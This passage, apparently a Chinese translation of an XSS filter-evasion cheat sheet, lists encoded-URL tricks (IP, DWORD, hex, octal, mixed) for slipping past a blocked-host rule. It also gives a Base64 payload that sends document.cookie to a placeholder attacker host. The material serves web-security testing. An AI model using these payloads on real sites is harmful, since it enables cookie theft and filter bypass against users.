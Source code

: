 如果以编程方式禁止 `http://www.google.com/`，则以下攻击有效：

#### IP 与主机名

```html
<A HREF="http://66.102.7.147/">XSS</A>
```

#### URL 编码

```html
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
```

#### DWORD 编码

注意：DWORD 编码有其他变体 - 有关更多详细信息，请参阅下面的 IP 混淆计算器：

```html
<A HREF="http://1113982867/">XSS</A>
```

#### 十六进制编码

每个数字的总大小在大约 240 个字符左右，正如你在第二个数字上看到的，由于十六进制数在 0 到 F 之间，第三个十六进制引号上的前导零不是必需的：

```html
<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>
```

#### 八进制编码

### 再次填充是允许的，尽管每个类必须保持在 4 个字符以上 - 如类 A、类 B 等：

```html
<A HREF="http://0102.0146.0007.00000223/">XSS</A>
```

#### Base64 编码

```html
<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">
```

#### 混合编码

让我们混合和匹配基本编码，并加入一些制表符和换行符（为什么浏览器允许这个，我永远不会知道）。制表符和换行符仅在用引号封装时有效：

```html
<A HREF="h
tt  p://6	6.000146.0x7.147/">XSS</A>
```

#### 协议解析绕过

`//` 转换为 `http://`，可以节省更多字节。当空间是个问题时这非常方便（减少两个字符可以走很长的路），并且可以轻松绕过正则表达式如 `(ht|f)tp(s)?://`（感谢 Ozh 提供部分内容）。你还可以将 `//` 更改为 `\\\\`。但是，你需要保持斜杠的位置，否则这将被解释为相对路径 URL：
